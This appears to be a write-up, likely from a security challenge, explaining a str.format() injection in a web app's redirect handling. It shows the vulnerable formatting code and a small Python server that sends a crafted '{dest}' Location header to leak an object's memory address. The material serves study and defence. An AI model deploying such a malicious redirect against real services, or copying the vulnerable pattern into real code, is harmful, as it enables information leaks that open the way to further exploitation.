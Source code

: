   <img src='assets/frame_redirect_chrome_mac_light1.png'>
</p>

# [__new string formatting, who dis? 📱__]()

The implementation here is susceptible to `str.format()` injection.

```python
find_header = lambda r, h: {k.lower(): v.strip() for k, v in [line.split(':', 1) for line in r.getvalue().splitlines() if ':' in line]}.get(h, None)
location_header = find_header(return_headers, 'location')

if location_header:
		location = '[+] Did you mean %s ?' % location_header
		return flash(location.format(dest=LogRedir(location_header)), 'warning')
```

Let's setup a server serving a redirect, the `Location` header value will consist of a replacement field containing the name of the keyword argument `dest`, the argument returns a copy of the object on the replacement field, resulting in us getting the reference memory address of the `LogRedir()` object.

```python
from SimpleHTTPServer import SimpleHTTPRequestHandler
from SocketServer import TCPServer

class MyServer(TCPServer):
	allow_reuse_address = True

class HTTP_RequestHandler(SimpleHTTPRequestHandler):
	def do_GET(self):
		self.send_response(301)
		self.send_header('Location', '{dest}')
		return self.end_headers()

MyServer(('', 1337), HTTP_RequestHandler).serve_forever()
```
